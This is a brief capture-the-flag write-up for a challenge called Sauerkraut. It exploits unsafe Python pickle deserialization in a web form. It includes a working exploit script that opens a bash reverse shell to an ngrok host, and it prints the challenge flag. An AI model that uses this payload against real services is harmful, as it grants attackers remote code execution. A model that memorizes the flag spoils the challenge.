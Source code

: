 # Sauerkraut

Page opened to two simple boxes:

![image](https://user-images.githubusercontent.com/80063008/136170679-cd9502f4-fbda-48cb-a3d2-973b85044d91.png)

Entering random text gets me an error

![image](https://user-images.githubusercontent.com/80063008/136170774-6e12ee62-2b02-478d-b882-5d864fb91848.png)

While googling that I find it is given by a python module called Pickle. Which makes sense considering the title of the challenge references something else that's pickled. Googled around until I found a python script to help https://davidhamann.de/2020/04/05/exploiting-python-pickle/.

I modified it with my own unpickled script to get a reverse shell. Gets me a base64 string I put into the box and while having ngrok and netcat listening, I got a reverse shell then read the flag.

```python
    1 	import pickle
    2 	import base64
    3 	import os
    4 	
    5 	
    6 	class RCE:
    7 		def __reduce__(self):
    8 			return (os.system, ('bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/11352 0>&1"',))
    9 	
   10 	
   11 	if __name__ == '__main__':
   12 		pickled = pickle.dumps(RCE())
   13 		print(base64.urlsafe_b64encode(pickled))
```

Flag: SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}

